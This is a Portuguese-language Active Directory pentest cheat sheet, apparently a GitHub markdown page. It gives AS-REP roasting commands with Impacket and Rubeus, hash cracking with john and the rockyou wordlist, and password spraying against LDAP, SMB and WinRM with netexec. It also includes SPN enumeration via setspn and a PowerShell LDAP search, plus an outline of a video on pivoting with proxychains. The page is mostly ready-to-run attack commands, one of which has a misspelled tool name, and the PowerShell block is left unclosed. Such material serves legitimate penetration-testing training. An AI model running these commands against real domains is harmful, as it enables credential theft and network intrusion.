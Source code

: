 ```
impacket-GetNPUsers -usersfile usernames.txt -dc-host <hostname_dc> <dominio>
```

ou com Rubeus
```
./r.exe asreproast /domain:<dominio> /dc:<hostname_dc>
```

Depois, para quebrar o(s) hash(s):

```
john --format=krb5asrep -w /usr/share/wordlists/rockyou.txt hashes_temp.txt
```
### Referência em vídeo

![type:video](https://youtube.com/embed/xNGfCADe9tk)

0:00 Introdução
0:30 Configuração necessária para explorar a vulnerabilidade
1:30 Configuração do ambiente de teste
3:45 Obtendo nome de domínio, hostname e ip do controlador de domínio
5:20 Explorando com Rubeus no Windows
6:10 Adequando o output da ferramenta
7:00 Quebrando o hash de senha com john
10:00 Utilizando o host comprometido como pivot para os demais hosts da rede
11:25 Configurando o Proxychains
14:25 Explorando com Impacket no Linux


## Password spray

```
netexet ldap hosts.txt -u users.txt -p P@ssword! --continue
```

```
netexec smb 10.10.11.152 -u users.txt -p passwords_test.txt --continue
```

```
netexec winrm 10.10.11.152 -u users.txt -p passwords_test.txt --continue
```

## Enumerar contas de serviço

```
setspn -F -Q */*
```

```
$ldapFilter = "(&(objectclass=user)(objectcategory=user)(servicePrincipalName=*))"
$domain = New-Object System.DirectoryServices.DirectoryEntry
$search = New-Object System.DirectoryServices.DirectorySearcher
$search.SearchRoot = $domain
$search.PageSize = 1000
$search.Filter = $ldapFilter
$search.SearchScope = "Subtree"
#Execute Search
$results = $search.FindAll()
#Display SPN values from the returned objects
foreach ($result in $results)
{
    $userEntry = $result.GetDirectoryEntry()
    Write-Host "User Name = " $userEntry.name
    foreach ($SPN in $userEntry.servicePrincipalName)
        {
            Write-Host "SPN = " $SPN      
        }
```